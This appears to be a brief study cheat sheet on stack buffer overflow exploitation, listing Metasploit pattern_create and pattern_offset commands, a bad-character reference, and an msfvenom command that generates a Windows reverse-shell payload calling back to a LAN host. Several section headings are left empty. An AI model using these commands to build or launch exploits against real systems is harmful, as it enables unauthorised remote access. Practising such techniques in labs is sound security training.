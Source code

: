 
### spiking
### fuzzing
### Create Pattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 223

msf-pattern_create  -l 223
```

### Find Offset

```
msf-pattern_offset  -l 3000 -q 386F4337

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### Overwrite the EIP
### Find Bad Characters
https://github.com/cytopia/badchars

### Finding the right module
### Generating Shellcode
```
msfvenom -p  windows/shell_reverse_tcp LHOST=192.168.0.2 LPORT=4444 EXITFUNC=thread -f c -b "\x00" -a x86
```

